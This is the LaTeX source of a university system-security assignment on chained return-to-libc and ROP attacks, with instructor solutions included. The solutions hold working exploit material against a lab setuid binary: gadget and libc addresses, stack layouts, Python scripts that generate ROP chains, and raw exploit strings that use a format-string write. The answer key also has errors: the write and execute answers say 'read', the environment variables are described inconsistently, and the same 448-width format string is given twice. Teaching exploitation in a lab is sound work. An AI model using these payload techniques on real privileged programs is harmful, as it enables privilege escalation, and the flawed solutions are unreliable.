\newif\ifsolution\solutionfalse
% To create the solution uncomment '\solutiontrue'
\solutiontrue

\documentclass[a4paper,11pt]{article}
\title{System Security\\
Return-Oriented Programming}

\ifsolution
\author{\bf Solution}
\else
\author{\bf Graded Assignment}
\fi

\ifsolution
\author{Luca Di Bartolomeo}
\fi

\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage{ae, aecompl}
\usepackage{a4wide}
\usepackage{boxedminipage}
\usepackage{url}
\usepackage{graphicx}
\usepackage{enumerate}
\usepackage{hyperref}
\usepackage{textcomp}
% Some useful commands and environments
\usepackage{framed}
\usepackage{listings}
\usepackage{drawstack}

% settings for listings
\lstset{breaklines=true} 
\lstset{basicstyle=\scriptsize\ttfamily}

% Python highlighting
% Default fixed font does not support bold face
\DeclareFixedFont{\ttb}{T1}{txtt}{bx}{n}{9} % for bold
\DeclareFixedFont{\ttm}{T1}{txtt}{m}{n}{9}  % for normal

% Custom colors
\usepackage{color}
\definecolor{deepblue}{rgb}{0,0,0.5}
\definecolor{deepred}{rgb}{0.6,0,0}
\definecolor{deepgreen}{rgb}{0,0.5,0}

\lstdefinestyle{custompython}{
		language=Python,
		basicstyle=\small\ttm,
		otherkeywords={self},                     % Add keywords here
		keywordstyle=\small\ttb\color{deepblue},
		emphstyle=\small\ttb\color{deepred},      % Custom highlighting style
		stringstyle=\small\ttm\color{deepred},
		commentstyle=\small\ttm\color{deepgreen},
		frame=none,                               % Any extra options here
		showstringspaces=false,
		breaklines=true 
}

\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-1ex}\begin{framed}}%
{\end{framed}\par}


\begin{document}
\maketitle


\section*{Introduction}

This exercise introduces you to \textit{chained return-to-libc} attacks. It
builds on your knowledge from the previous exercise. Here, you will build
exploits for the binary program {\tt rop}.  The goal of this attack is to be
able to execute a shell script called {\tt somefile.sh}. Please use the
\texttt{rop} folder. To setup the \texttt{rop} folder, run
\texttt{setup.sh} (enter the syssec password when prompted).

\textbf{This is a long exercise. Please read each part carefully and answer all
questions as they are all given points.}


\section{Goal}

In this exercise, you will have to chain several libc functions
to execute \texttt{somefile.sh} that you find in your \texttt{rop} folder. 
When you check the permissions of \texttt{somefile.sh}, you will see that it
can only be read/written by its owner (root in this case)---so the normal user
(syssec) cannot execute it. 

However, the user (syssec), has access to a vulnerable setuid program, which is
\texttt{rop} that he can use to execute \texttt{somefile.sh}. His final goal is
to execute the equivalent of the following commands:

\begin{itemize}
\item chmod 700 ./somefile.sh
\item ./somefile.sh
\item chmod 600 ./somefile.sh
\end{itemize}

Note that the \textbf{user cannot simply try to get a root shell (as in the
previous exercise) and execute somefile.sh} because the creation of all shells
is being monitored/logged\footnote{Technically, \texttt{system} also spawns a
shell. We will ignore this for simplicity, because we want to allow you to use
\texttt{system}.}. So he has to resort to executing \texttt{somefile.sh} without
explicitly spawning a shell. Specifically, his goal is to chain
libc-functions that will help him achieve his goal. You are not allowed to use
\texttt{system} (or similar functions) to execute anything other than
\texttt{somefile.sh}\footnote{In other words, you are not allowed to use, e.g.,
a wrapper function for all three calls or put them into one call to
\texttt{system} (as \texttt{system("chmod 700 somefile.sh; ./somefile.sh; chmod
600 somefile.sh")}), because the purpose of this exercise is to chain multiple
calls.}.


\section*{Structure of the Exercise and Advice}

The rest of this exercise is broken down into small steps that will allow you to
achieve the above goals. Here is some additional advice for successfully
completing this exercise:

\begin{itemize}
  \item Please do not run your exploits in the folder that is shared between
  your VM and host.
  \item Note that this program is slightly different from the older exercise.
  You are allowed only one command-line input and one runtime input. You have to
  redo your analysis of stack frames before you exploit the new \texttt{rop}
  executable.
  \item Only use the input taken at run-time for storing strings not for
  exploitation.
  \item Please run your final exploit outside of gdb. Intermediate steps can be
  run inside gdb.
  \item As mentioned earlier, you cannot simply spawn a root shell and complete
  the exercise; you have to chain libc functions.
  \item You are allowed \textbf{at most 2} environment variables for the final
  exploit (in addition to the commandline and runtime inputs)
  \item Your exploit must end without a segmentation fault, but does not have to
  give a specific exit code.
\end{itemize}


\section*{Unix File Permissions (3 points)}

In Unix-based file systems, every file has a 9-bit permission. The first three
bits are for read, write and execute permissions for the owner.  The middle
three and last three represent similar permissions for the group and others
respectively. Furthermore, there is a ``setuid'' permission bit that if set
allows any user to execute the file with the permissions of its owner.
Please answer the following questions:

\renewcommand{\t}[1]{%
	{\texttt{#1}}}


\begin{itemize}
  \item Who is the owner of \texttt{somefile.sh}?

  \ifsolution\begin{solution}
	  The owner of \t{somefile.sh} is \t{root}.
\end{solution}\fi

  \item Who is allowed to read \texttt{somefile.sh}?

  \ifsolution\begin{solution}
	  Only \t{root} is allowed to read \texttt{somefile.sh}, because its permissions are \verb|rw-------|
\end{solution}\fi

  \item Who is allowed to write \texttt{somefile.sh}?

  \ifsolution\begin{solution}
  Only \t{root} is allowed to read \texttt{somefile.sh}, because its permissions are \verb|rw-------|
\end{solution}\fi

  \item Who is allowed to execute \texttt{somefile.sh}?

  \ifsolution\begin{solution}
  No one is allowed to read \texttt{somefile.sh}, because its permissions are \verb|rw-------|
\end{solution}\fi

  \item What is the 32-bit hexadecimal representation of the current permissions
  of \texttt{somefile.sh}?

  \ifsolution\begin{solution}
  The permissions of \texttt{somefile.sh} is represented by the number "0x180"
\end{solution}\fi

  \item What is the 32-bit hexadecimal representation for the mode 0700? 

  \ifsolution\begin{solution}
  The permissions of \texttt{somefile.sh} is represented by the number "0x1c0"
\end{solution}\fi
\end{itemize}


\section*{Format String Vulnerabilities (1 points)}

C library functions like \texttt{printf} and \texttt{scanf} accept format
strings as a first argument and then a set of variable parameters. If the user
can supply the first argument, the execution can have undesired consequences.
For instance, some format strings are especially dangerous because they can be
used to overwrite arbitrary memory locations. The ``\%n" format string is one
such example. Please answer the following questions regarding its use:

\begin{itemize}
  \item What is the value of \texttt{i} after the following code executes?

  \texttt{int i; printf("\%n",\&i);}

  \ifsolution
  \begin{solution}
	  The value of variable \t{i} is 0.
\end{solution}
  \fi

  \item What is the value of \texttt{i} after the following code executes?

  \texttt{int i; printf("\%16x\%n",i,\&i);}

  \ifsolution
  \begin{solution}
  The value of variable \t{i} is 16.
\end{solution}
  \fi
\end{itemize}


\section*{Chaining Arbitrary Functions (4 points)}

Assume that cpybuf is a vulnerable function whose buffer can be
overflowed. Consider the following functions: \texttt{void a(\(pa\));} and
\texttt{void b(\(pb1, pb2\));}

\begin{figure}[t]
    \centering
    
\includegraphics[width=0.8\linewidth]{./stacks.pdf}
    \caption{Potential stack frames for chaining functions \texttt{a} and
    \texttt{b}.}
    \label{fig:stacks}
\end{figure}

\begin {itemize}
  \item Now, if on overflowing cpybuf, one would first like to execute function
  \texttt{a} with parameter \texttt{pa}, then function \texttt{b} with
  parameters \texttt{pb1} and \texttt{pb2}  and finally \texttt{exit}, does the
  stack layout on the left in Figure~\ref{fig:stacks} work? Justify your answer.

  \ifsolution
  \begin{solution}
	  The stack layout on the left doesn't work. The problem relies on the fact that 
	  on 32-bit architectures, parameters to functions are passed on the stack. This means
	  that when the \t{a()} function will execute, it will have the address of \t{b()} as
	  return address, and the address of \t{exit()} as the first parameter, which is wrong.
\end{solution}
  \fi

  \item Given the stack on the right in Figure~\ref{fig:stacks}, what
  instructions must the placeholder point to in order to make functions
  \texttt{a} and \texttt{b} execute correctly? \textbf{Hint: When function
  \texttt{a} returns, the stack pointer points to the placeholder. Now you have
  to remove the parameter \texttt{pa} and the jump to the next location pointed
  to by the \$esp, which would be \texttt{address of b()}.}
    
  \ifsolution
  \begin{solution}
	  We need to find the address of a gadget which does a \t{pop} and then a \t{ret}.
	  The pop will take care of removing from the stack the parameter pa, and the ret will
	  pop again a value from the stack (which will be the address of \t{b()}) and set register
	  eip to that value, effectively jumping to function \t{b()}.
\end{solution}
  \fi

  \item Could you find the instructions required in the placeholder anywhere in
  your program already?

  \ifsolution
  \begin{solution}
	  For example, at address \t{0x080486fb} there is the following gadget:\\
	  \t{pop ebp; ret}\\
	  Which is exactly what we were looking for.
\end{solution}
  \fi
\end{itemize}


\section*{Simple Libc Chaining (5 points)}

This is your first task of chaining libc functions. On doing this successfully,
you will know how to manipulate the stack to chain arbitrary functions. On
examining the source code of \texttt{rop}, you will see that it has a global
variable called \texttt{test}. Your task is to exploit \texttt{rop}, overwrite
\texttt{test} to \texttt{0x100} using printf, and print its value using the
\texttt{print\_test} function, which is part of \texttt{rop}. In other words,
please chain \texttt{printf}, \texttt{print\_test} and \texttt{exit} to achieve
this. Please answer the following questions regarding this task:

\begin{itemize}
  \item What is the address of variable \texttt{test}?

  \ifsolution
  \begin{solution}
	  The address of variable \t{test} is \t{0x804a030}.
\end{solution}
  \fi

  \item What \texttt{printf} command will let you overwrite variable
  \texttt{test} appropriately?
  
  \ifsolution
  \begin{solution}
	  The call to \t{printf} at address \t{0x0804865a} has an input-controlled format string.
	  We can use that to overwrite whatever location in memory we want.
\end{solution}
  \fi

  \item What instructions do you need to ``fix'' the stack after calling
  \texttt{printf} and before calling \texttt{print\_test}? \textbf{Hint: How
  many parameters of \texttt{printf} do you have to remove before jumping to
  \texttt{print\_test}?}
  
  \ifsolution
  \begin{solution}
	  To call printf, we just need two arguments: the position of the format string, and the address of the variable to overwrite.
	  The format string will look like this: \t{"\%1\$256x\%n"}. The \t{\$1} will read the first argument without popping it, that allows us to pass only the address of the format string and the address of \t{test} as arguments to printf. What will happen is that the printf will print the value of \t{test} padded up to 256 bytes, and then write 256 (0x100) inside \t{test}.

	  So we need really only a gadget consisting of \t{pop; pop; ret}, because we pass two arguments to the printf function.
\end{solution}
  \fi

  \item When you chain \texttt{printf}, \texttt{print\_test} and \texttt{exit},
  what does the stack layout look like after you overflow the vulnerable buffer
  in \texttt{cpybuf} but before you return from \texttt{cpybuf}?

  \ifsolution
  \begin{solution}

	  \begin{drawstack}
		  \cell{... High addresses ... } 
		  \cell{0xb7e0d3d0} \cellcom{sym.exit libc address} 
		  \startframe
		  \cell{0x0804a030} \cellcom{test variable address} 
		  \finishframe{print\_test argument}
		  \startframe
		  \cell{0x0804838d} \cellcom{'pop;ret' gadget} 
		  \finishframe{print\_test return address}
		  \cell{0x08048536} \cellcom{print\_test address} 
		  \startframe
		  \cell{0x0804a030} \cellcom{test variable address} 
		  \cell{0x0804a038} \cellcom{input string address} 
		  \finishframe{printf parameters}
		  \startframe
		  \cell{0x080486fa} \cellcom{'pop;pop;ret' gadget} 
		  \finishframe{printf return address}
		  \startframe
		  \cell{0x080483a0} \cellcom{printf address} 
		  \finishframe{cpybuf return address}
		  \startframe
		  \cell{"aaaa"} 
		  \cell{"aaaa"}
		  \cell{"aaaa"}
		  \cell{"aaaa"}
		  \cell{"aaaa"}
		  \finishframe{buffer overflowed}
		  \cell{..  Low addresses ..}
	  \end{drawstack}
\end{solution}
  \fi

  \item What is the final command that you used to successfully run this
  exploit?

  \ifsolution
  \begin{solution}

	  This was the script used to generate the rop chain:

\begin{lstlisting}
print_address='\xa0\x83\x04\x08'
one_pop='\x8d\x83\x04\x08'
two_pop='\xfa\x86\x04\x08'
obj_helpstr='\x38\xa0\x04\x08'
obj_test='\x30\xa0\x04\x08'
print_test_address='\x36\x85\x04\x08'
exit_address='\xd0\xd3\xe0\xb7'

print('a'*20 + print_address + two_pop + obj_helpstr + obj_test + print_test_address + one_pop + obj_test + exit_address)
\end{lstlisting}

	Then, to execute it, just run:
  \begin{lstlisting}
$ python exploit.py > exploit
$ ./rop $(cat exploit)
  \end{lstlisting}


	  Alternatively, one can also directly call
	  \begin{lstlisting}
$ ./rop $(printf "aaaaaaaaaaaaaaaaaaaa\xa0\x83\x04\x08\xfa\x86\x04\x08\x38\xa0\x04\x08\x30\xa0\x04\x08\x36\x85\x04\x08\x8d\x83\x04\x08\x30\xa0\x04\x08\xd0\xd3\xe0\xb7")
	\end{lstlisting}

After that, you need to provide \t{"\%1\$256x\%n"} as runtime input parameter to write value 256 in variable \t{test}.



\end{solution}
  \fi
\end{itemize}


\section*{Final Task: Creating Longer Libc Chains (10 points)}

Finally, you will now design and run the original exploit to run
\texttt{somefile.sh}. You are allowed to use \textbf{only two environment
variables} for this task. \textbf{You have to accomplish this task both inside
and outside of gdb.}  When you specify the shell file to execute (either to the
program or as an environment variable), please enter ``./somefile.sh'' (and not
just ``somefile.sh''). Please answer the following questions regarding this
task:

\begin{itemize}
  \item What libc functions would you chain to achieve the equivalent of the
  three commands listed under the goals of this exercise? Please provide your
  answer as a list of function calls with appropriate parameters.

  \ifsolution
  \begin{solution}
	  The functions we need to call are:
	  \begin{itemize}
		  \item \texttt{chmod("./somefile.sh", 0x1c0)}
		  \item \texttt{system("./somefile.sh")}
		  \item \texttt{chmod("./somefile.sh", 0x180)}
	  \end{itemize}
\end{solution}
  \fi

  \item Do these calls work as an exploit? Justify your answer. \textbf{Hint:
  The \texttt{strcpy} function that is used to overflow the buffer stops on
  encountering a \texttt{NULL} byte.}

  \ifsolution
  \begin{solution}
	  They do not work because the \texttt{chmod} function take an integer as argument.
	  However, the small values (0x1c0 and 0x180) mean that the first few byte of the integer
	  will be zeros; in other words, the integers are 0x000001c0 and 0x00000180, and they
	  contain NULL bytes which will block the \texttt{strcpy} function.

	  In addition to that, the address of the \t{system()} function (\t{0xb7e1a200}) contains another NULL byte.
\end{solution}
  \fi

  \item What would you do to overcome it? Can you think of some functions to
  generate the required values? Please list the required function calls with
  appropriate parameters. \textbf{Hint: you have done this already in the
  exercise if you got this far.}

  \ifsolution
  \begin{solution}
	  We can use the printf function to write arbitrary values in memory.
	  We could write values 0x180 and 0x1c0 to obtain
	  the two integers we need.
	  The required function calls would be:
	  \begin{itemize}
		  \item \texttt{printf("\%1\$384x\%n", a)}
		  \item \texttt{printf("\%1\$448x\%n", b)}
	\end{itemize}
	  Where \texttt{a} and \texttt{b} are the addresses on the stack with which we can call
	  the function \texttt{chmod}.

	  To overcome the fact that \t{system()} function has a NULL byte inside, we can just jump
	  to the instruction just before the \t{system()} start, which is a harmless \t{lea esi, [esi]} which will not get in the way of the execution of \t{system()}.
\end{solution}
  \fi

  \item Given that \texttt{rop} takes one command-line input and one runtime
  input, where could you put any additional inputs that you need? Please specify
  the exact unix commands that you used to do this.

  \ifsolution
  \begin{solution}
	  We can use environment variables to store further input. In particular, we need to store:
	  \begin{itemize}
		  \item Another format string, \t{"\%1\$448x\%n"}, to write on the second argument of chmod.
		  \item The path of the file we want to chmod and execute (\t{"./somefile.sh"}).
	  \end{itemize}
	  The unix commands to store those contents in the environment variables are:
	  \begin{itemize}
		  \item \t{export A="\%1\textbackslash\$448x\%n"}
		  \item \t{export B="./somefile.sh"}
	  \end{itemize}
\end{solution}

  \fi

  \item Please sketch the stack layout that you used with annotations if
  necessary.

  \ifsolution
	  \scriptsize
	  \begin{drawstack}[scale=0.8]
		  \cell{... High addresses ... } 

		  \startframe
		  \cell{0xb7e0d3d0} \cellcom{exit address} 
		  \finishframe{'pop;pop;ret' gadget return address}
		  \startframe
		  \cell{0xbfffee84} \cellcom{chmod mode\_t argument (\t{0x1c0})} 
		  \cell{0xbfffffdc} \cellcom{\t{A} env variable (\t{"./somefile.sh"})} 
		  \finishframe{chmod parameters}
		  \startframe
		  \cell{0x080486fa} \cellcom{'pop;pop;ret' gadget} 
		  \finishframe{chmod return address}

		  \startframe
		  \cell{0xb7ec35d0} \cellcom{chmod address} 
		  \finishframe{'pop;ret' gadget return address}
		  \startframe
		  \cell{0xbfffffdc} \cellcom{\t{A} env variable (\t{"./somefile.sh"})} 
		  \finishframe{system parameters}
		  \startframe
		  \cell{0x0804838d} \cellcom{'pop;ret' gadget} 
		  \finishframe{system return address}

		  \startframe
		  \cell{0xb7e1a1fc} \cellcom{system address} 
		  \finishframe{'pop;pop;ret' gadget return address}
		  \startframe
		  \cell{0xbfffee68} \cellcom{chmod mode\_t argument (\t{0x180})} 
		  \cell{0xbfffffdc} \cellcom{\t{A} env variable (\t{"./somefile.sh"})} 
		  \finishframe{chmod parameters}
		  \startframe
		  \cell{0x080486fa} \cellcom{'pop;pop;ret' gadget} 
		  \finishframe{chmod return address}

		  \startframe
		  \cell{0xb7ec35d0} \cellcom{chmod address} 
		  \finishframe{'pop;pop;ret' gadget return address}
		  \startframe
		  \cell{0xbfffee84} \cellcom{second chmod argument address} 
		  \cell{0x0804a038} \cellcom{\t{obj.helpstr} (runtime input format string)} 
		  \finishframe{printf parameters}
		  \startframe
		  \cell{0x080486fa} \cellcom{'pop;pop;ret' gadget} 
		  \finishframe{printf return address}


		  \startframe
		  \cell{0x080483a0} \cellcom{printf address} 
		  \finishframe{'pop;pop;ret' gadget return address}
		  \startframe
		  \cell{0xbfffee68} \cellcom{first chmod argument address} 
		  \cell{0xbfffffec} \cellcom{\t{A} env variable address (format string)} 
		  \finishframe{printf parameters}
		  \startframe
		  \cell{0x080486fa} \cellcom{'pop;pop;ret' gadget} 
		  \finishframe{printf return address}

		  \startframe
		  \cell{0x080483a0} \cellcom{printf address} 
		  \finishframe{cpybuf return address}
		  \startframe
		  \cell{"aaaa"} 
		  \cell{"aaaa"}
		  \cell{"aaaa"}
		  \cell{"aaaa"}
		  \cell{"aaaa"}
		  \finishframe{buffer overflowed}
		  \cell{..  Low addresses ..}
	  \end{drawstack}
  \begin{solution}
	  We can't set the two mode\_t chmod arguments right at the start, because they contain some NULL bytes. So we just fill them with "aaaa"s, and call two \t{printf()} functions to write in them (exactly in their address on the stack) \t{0x180} and \t{0x1c0}. So, the final function call order is:
	  \begin{itemize}
		  \item \texttt{printf("\%1\$384x\%n", arg\_a)}
		  \item \texttt{printf("\%1\$448x\%n", arg\_b)}
		  \item \texttt{chmod("./somefile.sh", arg\_a)}
		  \item \texttt{system("./somefile.sh")}
		  \item \texttt{chmod("./somefile.sh", arg\_b)}
	  \end{itemize}
\end{solution}
  \fi

  \item What is the final exploit string that you used to accomplish this task?
  (The final exploit should not use gdb.)

  \ifsolution
  \begin{solution}
	  The final exploit was obtained by running this python script and using the result as argument to the \t{rop} binary:
	  \begin{lstlisting}

print_address="\xa0\x83\x04\x08"
one_pop="\x8d\x83\x04\x08"
two_pop="\xfa\x86\x04\x08"
obj_helpstr="\x38\xa0\x04\x08"
obj_test="\x30\xa0\x04\x08"
print_test_address="\x36\x85\x04\x08"
exit_address="\xd0\xd3\xe0\xb7"
system_address="\xfc\xa1\xe1\xb7"
panico_address="\xfc\xa1\xe1\xb7"
bin_sh_address="\xcf\xb0\xf5\xb7"
address_a="\x68\xee\xff\xbf"
address_b="\x84\xee\xff\xbf"
env_variable_a="\xdc\xff\xff\xbf"
env_variable_b="\xec\xff\xff\xbf"
chmod_address="\xd0\x35\xec\xb7"
print('a'*20 + print_address + two_pop + env_variable_a + address_a + print_address + two_pop + obj_helpstr + address_b +
    chmod_address + two_pop + env_variable_b + 'a'*4 +
    system_address + one_pop + env_variable_b + 
    chmod_address + two_pop + env_variable_b + 'a'*4 + exit_address)               

	  \end{lstlisting}

	  And then using the string \t{"\%1\$448x\%n"} as runtime input, and \t{A="\%1\textbackslash\$448x\%n"} , \t{B="./somefile.sh"} as environment variables.

	  \vspace{2em}

	  The result of the python script is this (escaped) string:
	  \begin{lstlisting}
aaaaaaaaaaaaaaaaaaaa\xa0\x83\x04\x08\xfa\x86\x04\x08\xec\xff\xff\xbf\x68\xee\xff\xbf\xa0\x83\x04\x08\xfa\x86\x04\x08\x38\xa0\x04\x08\x84\xee\xff\xbf\xd0\x35\xec\xb7\xfa\x86\x04\x08\xdc\xff\xff\xbfaaaa\xfc\xa1\xe1\xb7\x8d\x83\x04\x08\xdc\xff\xff\xbf\xd0\x35\xec\xb7\xfa\x86\x04\x08\xdc\xff\xff\xbfaaaa\xd0\xd3\xe0\xb7
	  \end{lstlisting}
\end{solution}
  \fi
\end{itemize}

\begin{thebibliography}{---}
\bibitem[1]{example} Please cite your sources, Example Author, \url{http://www.example.org}
\end{thebibliography}

\end{document}

